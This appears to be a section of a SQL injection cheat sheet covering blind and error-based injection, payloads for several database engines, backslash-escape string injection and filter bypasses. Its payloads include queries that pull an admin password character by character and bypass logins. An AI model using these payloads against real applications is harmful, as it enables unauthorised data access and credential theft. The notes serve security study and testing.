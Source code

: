 ### Blind SQLi in different table
To change the table queried, simply put a SELECT statement in place of the string.

`substr((select password from users where username = 'admin'), 1, 1) = 'a'; -- `

### Error-based SQLi
` union select case when substr(password, 1, 1) = 'a' then to_char(1/0) else 'a' end) = 'a'; -- `

| Version    | Query                                                                  |
| ---------- | ---------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE '' END FROM DUAL`       |
| sqlite     | `SELECT iif(1, load_extension(1), '')`                                 |
| MySQL      | `SELECT if(1, (select table_name from information_schema.tables), '')` |
| Microsoft  | `SELECT iif(1, 1/0, '')`                                               |
| PostgreSQL | `SELECT CASE WHEN (1=1) THEN cast(1/0 as text) ELSE '' END`            |

> In Oracle, all SELECT statements must have a FROM parameter.

If the character guessed is right, the database will return an error. This can allow us to differentiate between true/false queries.

---

## String-based SQLi

This type of SQLi works when you have 2 string-bound inputs, and quotes are banned.

*eg.* `SELECT id FROM users WHERE id = '%s' and pw = '%s'`

We exploit the backslash escape character (\) to escape the second quote in id. 

Then, the first quote in pw will close the string, and whatever's in pw will be directly executed.

*eg.* `SELECT id FROM users WHERE id = '\' and pw = ' or id = "admin" -- '`, where `id=\'` and `pw= or id = "admin" -- `

---

## Filter bypasses

### Order of Operations

Do note that order of operations applies to SQL WHERE clause too! For example, `WHERE name = 'hello' and id = 1 or id = 0` is equivalent to `WHERE (name = 'hello' and id = 1) or id = 0`. This is useful when you want to select a different row in the same column than one already selected; it will select both their row and your row.

### No spaces

If the application does not allow spaces, we can bypass this via `/**/`. For example, `'/**/or/**/1=1` is equivalent to `' or 1=1`
